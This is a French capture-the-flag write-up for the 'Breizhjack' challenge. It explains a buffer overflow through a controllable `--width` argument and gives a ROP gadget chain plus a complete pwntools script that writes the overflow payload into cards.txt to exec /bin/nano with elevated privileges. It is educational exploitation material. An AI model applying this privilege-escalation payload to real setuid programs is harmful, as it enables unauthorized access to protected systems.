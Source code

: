 # Breizhjack

## Description

Pour ce challenge, nous disposons d'un accès ssh à un serveur. Sur celui-ci se trouvent : 

 - Un binaire breizhjack  lié statiquement
 - Un binaire wrapper appartenant à l'administrateur et disposant du SUID bit
 - Un fichier flag.txt lisible uniquement par l'administrateur
 - Un fichier cards.txt que nous pouvons lire et modifier

## Reverse
Après un rapide reverse du binaire, on découvre qu'il est possible de passer un argument `--width` qui sera utilisé lors de la création du Deck afin de déterminer combien d'octets `fgets` mettra dans le buffer. Cependant, la taille du buffer reste toujours la même, ce qui nous permet de l'overflow lors de la lecture de cards.txt (que nous pouvons modifier à notre guise ;)).

## Exécuter getFlag

Le but de ce challenge sera donc d'exploiter le binaire breizhjack afin d'élever nos privilèges et de lire flag.txt. Au vu du nombre de gadgets présents dans le binaire, il existe un grand nombre de solutions ;). J'ai pour ma part opté pour une SROP avec un `sys_execve` sur `/bin/nano` (`/bin/sh`ayant tendance à dropper les privilèges).

## SROP

```asm
### 0x0805d259 ###
xor edx, edx # on place 0 dans edx
mov eax, edx # Useless mais ce n'est pas ça qui nous intéresse

### 0x08096f97 ###
mov eax, 0xb # sys_execve
pop ebx # On s'arrange pour pop l'addresse du chemin vers /bin/nano dans la heap
pop esi # On pop du padding
pop edi # On pop du padding

### 0x0804cafb ###
xor ecx, ecx # On place 0 dans ecx
int 80
```

## Payload

Personnellement, j'ai choisi de lancer le binaire avec `--width 256`. Le payload que j'ai utilisé est le suivant : (NB : la première valeur hexa que vous voyez copiée 575 fois correspond au descripteur du fichier, si on l'écrase `fgets` nous plante à la figure.)

```python
import os
from pwn import *

heap_path = 0x80e6f60 + 39 + 16
mov_eax_0xb = 0x080901b1
xor_edx_edx = 0x0805d259
xor_ecx_ecx_int_80 = 0x0804cafb
ret_gadget = 0x0804900e


os.system("cp cards.txt.bck cards.txt")

f = open("cards.txt", "rb")
lines = f.readlines()
f.close()

f = open("payload.txt", "wb")
for line in lines[:len(lines)-1]:
    f.write(line)

f.write(b"AAA" + p32(0x80e6e30)*575 + p32(ret_gadget)[:3] + b"A"*244 +  bytes([p32(ret_gadget)[3]]) + p32(0xffffb92b) + p32(xor_edx_edx) + p32(mov_eax_0xb)[:2] + b"A"*244 + p32(mov_eax_0xb)[2:] + p32(heap_path) + b"A"*429 + p32(xor_ecx_ecx_int_80) + b"A"*371 + b"/bin/nano\x00")
f.close()

os.system("rm cards.txt")
os.system("mv payload.txt cards.txt")
```